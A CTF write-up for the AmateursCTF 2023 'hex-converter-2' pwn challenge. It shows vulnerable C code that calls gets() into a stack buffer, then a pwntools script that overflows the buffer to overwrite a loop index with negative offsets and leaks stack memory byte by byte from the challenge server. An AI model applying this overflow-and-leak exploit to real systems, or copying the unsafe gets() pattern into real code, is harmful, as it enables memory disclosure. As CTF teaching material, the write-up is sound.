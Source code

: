 # AmateursCTF 2023

## hex-converter-2

> Unvariant took a look at my hex-converter. Because he's a pwn god, he pwned it. So this time, I made it print in reverse order so you can't go backwards in the stack!
>
>  Author: stuxf
>
> [`chal.c`](chal.c) [`chal`](chal) [`Dockerfile`](Dockerfile)

Tags: _pwn_

## Solution
This is the follow up task to [`hex-converter`](../hex_converter/README.md). This time the code is slightly modified.

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    int i = 0;

    char name[16];
    printf("input text to convert to hex: \n");
    gets(name);

    char flag[64];
    fgets(flag, 64, fopen("flag.txt", "r"));
    // TODO: PRINT FLAG for cool people ... but maybe later

    while (1)
    {
        // the & 0xFF... is to do some typecasting and make sure only two characters are printed ^_^ hehe
        printf("%02X", (unsigned int)(name[i] & 0xFF));

        // exit out of the loop
        if (i <= 0)
        {
            printf("\n");
            return 0;
        }
        i--;
    }
}
```

Since the loop is backwards it's not possible to initialize i with a negative number as in the previous challenge. But since the check is done after the first character was read and printed we can still leak data located before `name` in memory by subsequently running the process and initializing `i` with different negative offsets.

```python
from pwn import *
import ctypes

result = b""
for i in range(-80, 0, 1):
    p = remote("amt.rs", 31631)
    #p = process("chal")
    payload = b""
    payload += 28*b"A"
    payload += p32(ctypes.c_uint(i).value)

    p.sendlineafter(b"convert to hex:", payload)
    print(p.recvline())
    foo = p.recvline()
    result = result + foo[0:-1]
    p.close()

result = result.decode()
result.rjust((len(result)//2)*2, "0")
print(bytes.fromhex(result))
```

Flag `amateursCTF{an0ther_e4sier_0ne_t0_offset_unvariant_while_l00p}`